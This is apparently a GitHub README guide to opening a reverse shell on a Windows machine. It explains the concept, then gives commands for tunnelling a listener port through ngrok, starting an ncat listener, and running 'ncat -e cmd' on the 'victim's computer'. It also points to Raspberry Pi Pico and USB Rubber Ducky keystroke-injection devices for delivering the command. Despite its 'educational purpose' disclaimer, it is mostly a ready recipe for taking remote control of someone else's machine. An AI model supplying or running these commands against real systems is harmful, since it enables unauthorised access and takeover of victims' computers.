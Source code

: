 # Reverse-Shell
This is a guide on how to perform a reverse shell on Windows.

> This repository is ONLY for educational purpose

❓ **How Reverse Shell Works**
- In a typical remote system access scenario, the user is the client and the target machine is the server. The user initiates a remote shell connection and the target      system listens for such connections. With a reverse shell, the roles are opposite. It is the target machine that initiates the connection to the user, and the user’s    computer listens for incoming connections on a specified port.

> ⚠ ATTENTION ⚠

- This repository does NOT explain how to set a [Raspberry Pi Pico](https://www.amazon.it/IBest-Pico-Microcontroller-Board-Pre-Soldered/dp/B0922F9VYT/ref=sr_1_1_sspa?__mk_it_IT=%C3%85M%C3%85%C5%BD%C3%95%C3%91&crid=23WS773UDH0WZ&keywords=rasberry%2Bpi%2Bpico&qid=1664023352&qu=eyJxc2MiOiIzLjcyIiwicXNhIjoiMy4yMiIsInFzcCI6IjIuNjEifQ%3D%3D&sprefix=rasberry%2Bpi%2Bpico%2Caps%2C105&sr=8-1-spons&spLa=ZW5jcnlwdGVkUXVhbGlmaWVyPUExMjdRSFlKUEc3TDk0JmVuY3J5cHRlZElkPUEwOTgzNzkzM05VN0s2QTFDV05VVyZlbmNyeXB0ZWRBZElkPUEwOTE1NjQ1MkQ3UFIwM01QU1VHSyZ3aWRnZXROYW1lPXNwX2F0ZiZhY3Rpb249Y2xpY2tSZWRpcmVjdCZkb05vdExvZ0NsaWNrPXRydWU&th=1, "Buy a Raspberry Pi Pico") or a [USB Rubber Ducky](https://hak5.org/products/usb-rubber-ducky, "Buy a USB Rubber Ducky").

  - For set a raspberry pi pico or a USB Rubber Ducky: 
    - https://www.youtube.com/watch?v=e_f9p-_JWZw&t=949s&ab_channel=NetworkChuck
    - https://github.com/dbisu/pico-ducky

🧰 **Hacker's Computer**
 1. Download [Ngrok](https://ngrok.com/)
 2. Run ngrok on port `9999` 
 ```
    ngrok tcp 9999
 ```
 3. Create a listener with [Ncat](https://nmap.org/download.html) on another cmd
 ```
    ncat -lvnp 9999
 ```
 🎯 **Victim's Computer**
 1. ncat -e cmd \<ngrok IP> \<ngrok PORT>
 
 > ⚠ ATTENTION ⚠
 
 DIFFERENT NETWORK => Ngrok

SAME NETWOTK - DIFFERENT DEVICES => IPv4 + 9999

SAME DEVICE => 127.0.0.1 + 9999
